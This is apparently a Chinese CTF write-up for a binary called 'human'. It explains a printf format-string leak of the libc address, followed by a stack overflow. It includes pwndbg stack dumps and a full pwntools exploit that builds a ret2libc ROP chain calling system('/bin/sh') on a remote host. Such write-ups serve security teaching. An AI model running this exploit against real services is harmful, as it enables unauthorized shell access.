 ```c
  return 0;
}
```

首先发现第一次输入存在**printf**函数，存在格式化字符串漏洞，泄露出栈上的**libc_start_main**。**libc_start_main**是**libc**中的函数，可以泄露出加载**libc**的基地址。然后就是找服务器**system**地址和**binsh**地址，通过**gadget**赋值。关键是如何通过字符串泄露出**libc_start_main**的地址，我们通过动态调试来看

首先在printf函数下一个断点，然后运行到此处，查看栈上的情况

```c
pwndbg> stack 50
00:0000│ rdi rsi rsp  0x7fffffffde60 ◂— 0xa61 /* 'a\n' */
01:0008│              0x7fffffffde68 ◂— 0x0
... ↓
04:0020│ rbp          0x7fffffffde80 —▸ 0x4008d0 (__libc_csu_init) ◂— push   r15
05:0028│              0x7fffffffde88 —▸ 0x7ffff7a2d830 (__libc_start_main+240) ◂— mov    edi, eax
```

```
pwndbg> x/32w $rsp
0x7fffffffde60:	0x24313125	0x00000a70	0x00000000	0x00000000
0x7fffffffde70:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffde80:	0x004008d0	0x00000000	0xf7a2d830	0x00007fff
0x7fffffffde90:	0xffffdf68	0x00007fff	0xffffdf68	0x00007fff
0x7fffffffdea0:	0xf7b99608	0x00000001	0x00400796	0x00000000
0x7fffffffdeb0:	0x00000000	0x00000000	0x603a5ce0	0xa87e90b7
0x7fffffffdec0:	0x004006a0	0x00000000	0xffffdf60	0x00007fff
0x7fffffffded0:	0x00000000	0x00000000	0x00000000	0x00000000
```

可以看到在栈上第11个位置存在**libc_start_main+240**,即**libc_start_main_ret**的地址，把**libc**文件放在**ida**中，找到**_libc_start_main**函数中调用**main**函数的地方，查看地址。这个**main**的返回地址就=**libc**基址+**0x2082E**(这个**call rax**的偏移地址) + **2**(**call rax**的长度为2)，**libc**的**system**函数偏移地址**0x45390**，**"/bin/sh"**字符串偏移地址**0x18cd57**，**human**的**pop_rdi_ret**地址**0x400933**，**libc**中函数的实际地址=**libc**基址 + 函数偏移地址

然后变量**s**存在溢出，且要避免执行**exit()**;查看**if**中比较的两个字符串，一个是“**真香**”，一个是“**鸽子**”，也就是说输入字符串**s**中要同时存在这两个词。

故可写Exp

```python
from pwn import *
p = remote("114.116.54.89", "10005")
#p = process("./human")
pop_rdi = 0x400933
bin_add = 0x18cd57
sys_add = 0x45390
gezi = "鸽子"
zhenxiang = "真香"
print p.recvuntil("?\n")
p.sendline("%11$p.")
print p.recvline()
libc_leak = int(p.recvline()[2:-2],16)
libc_base = libc_leak - 0x20830
print p.recvuntil("还有什么本质?")
bin_abs = libc_base + bin_add
sys_abs = libc_base + sys_add
payload = (gezi+zhenxiang).ljust(0x20+8,"A")
payload += p64(pop_rdi)
payload += p64(bin_abs)
payload += p64(sys_abs)
p.sendline(payload)
p.interactive()
```

